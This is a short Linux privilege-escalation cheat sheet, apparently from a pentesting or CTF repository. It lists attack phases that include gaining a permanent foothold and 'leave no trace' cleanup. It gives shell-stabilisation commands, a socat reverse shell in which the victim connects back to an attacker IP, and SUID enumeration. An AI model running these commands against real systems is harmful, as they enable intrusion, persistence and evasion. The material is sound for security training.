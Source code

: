 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell
atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands
### List all processes runing as root
```
ps -aux | grep root
```
### List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
### Start a quick HTTP server
```
python3 -m http.server [PORT]
```
## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```

